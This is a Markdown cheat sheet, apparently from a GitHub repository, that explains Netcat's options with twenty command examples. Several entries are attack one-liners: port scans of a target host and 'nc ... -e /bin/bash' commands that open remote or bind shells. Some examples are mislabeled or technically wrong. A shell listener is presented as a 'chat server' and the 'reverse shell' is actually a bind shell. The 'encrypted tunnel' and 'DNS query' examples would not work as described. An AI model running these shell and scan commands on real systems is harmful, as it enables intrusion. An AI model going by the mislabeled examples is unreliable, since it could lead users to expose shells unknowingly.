 # Ncat

Netcat, often referred to as the "Swiss Army Knife" of networking tools, is a versatile command-line utility that facilitates the reading from and writing to network connections. It can be used to establish connections with various protocols, perform network troubleshooting tasks, and create simple network services. Netcat is available on most Unix-like operating systems and Windows. Here's an explanation of Netcat's basic parameters and 10 common use examples:



**Basic Parameters**:

* `-l` or `--listen`: Listen for incoming connections.
* `-p` or `--port`: Specify the port number to use.
* `-e` or `--exec`: Execute a specified program when a connection is established.
* `-z` or `--zero`: Use zero I/O mode, which only scans for listening daemons.
*   `-v` or `--verbose`: Increase verbosity to display more information.



Here are 20 common use examples of Netcat, along with explanations of the parameters used in each example:

1. **Port Scanning:**
   * Example: `nc -zv target_host 1-100`
   * Explanation: This command performs a TCP port scan on the target host from port 1 to port 100 (`-zv` indicates scanning mode, verbose output).
2. **Banner Grabbing:**
   * Example: `nc -v target_host target_port`
   * Explanation: Connects to the target host on the specified port and displays the banner information (`-v` for verbose output).
3. **Listening on a Port:**
   * Example: `nc -l -p port_number`
   * Explanation: Starts Netcat in listening mode on the specified port (`-l` for listen, `-p` for port).
4. **File Transfer:**
   * Example: `nc -l -p port_number > received_file`
   * Explanation: Listens on the specified port and saves received data to a file (`> received_file`).
5. **File Transfer (Client):**
   * Example: `nc target_host target_port < local_file`
   * Explanation: Connects to the target host on the specified port and sends the contents of a local file (`< local_file`).
6. **Chat Server:**
   * Example: `nc -l -p port_number -e /bin/bash`
   * Explanation: Creates a chat server on the specified port, executing the Bash shell for communication (`-e /bin/bash`).
7. **Remote Shell:**
   * Example: `nc target_host target_port -e /bin/bash`
   * Explanation: Connects to the target host on the specified port and provides a remote shell via the Bash executable (`-e /bin/bash`).
8. **Reverse Shell:**
   * Example: `nc -l -p port_number -e /bin/bash`
   * Explanation: Listens on the specified port, and when a connection is established, provides a reverse shell (`-e /bin/bash`).
9. **HTTP Server:**
   * Example: `nc -l -p port_number -c 'echo -e "HTTP/1.1 200 OK\r\n\r\nHello World!"'`
   * Explanation: Creates a basic HTTP server on the specified port, responding with "Hello World!".
10. **UDP Data Transfer:**
    * Example: `nc -u -l -p port_number`
    * Explanation: Listens for UDP data on the specified port (`-u` for UDP).
11. **Port Forwarding:**
    * Example: `nc -l -p local_port -c "nc remote_host remote_port"`
    * Explanation: Listens on a local port and forwards data to a remote host and port.
12. **Chat Client:**
    * Example: `nc target_host target_port`
    * Explanation: Connects to the target host on the specified port, enabling chat communication.
13. **Serving Files via HTTP:**
    * Example: `nc -l -p port_number < file_to_serve`
    * Explanation: Creates a simple HTTP server on the specified port, serving the contents of a local file.
14. **Transferring Files via HTTP:**
    * Example: `nc target_host target_port > received_file`
    * Explanation: Connects to the target host on the specified port and saves received data to a file.
15. **Checking Remote Port Status:**
    * Example: `nc -zv target_host target_port`
    * Explanation: Checks if a remote port on the target host is open (`-zv` for scanning mode, verbose output).
16. **Creating Encrypted Tunnels:**
    * Example: `nc -l -p local_port | openssl enc -d -aes-256-cbc -pass pass:your_password | nc target_host target_port`
    * Explanation: Creates an encrypted tunnel between two hosts using OpenSSL for encryption.
17. **Generating Random Data:**
    * Example: `nc -l -p port_number < /dev/urandom`
    * Explanation: Creates a server that sends random data to connecting clients.
18. **DNS Query:**
    * Example: `echo -n "example.com" | nc -u -w1 target_dns_server 53`
    * Explanation: Sends a DNS query to the specified DNS server using UDP (`-u`) and a one-second timeout (`-w1`).
19. **Listening for UDP Packets:**
    * Example: `nc -u -l -p port_number`
    * Explanation: Listens for incoming UDP packets on the specified port.
20. **Port Redirection:**
    * Example: `nc -l -p local_port -c "nc target_host target_port"`
    * Explanation: Listens on a local port and redirects incoming data to a remote host and port.

These examples showcase the versatility of Netcat and its ability to perform various networking tasks. Keep in mind that Netcat's capabilities are extensive and can be creatively combined for even more advanced use cases.
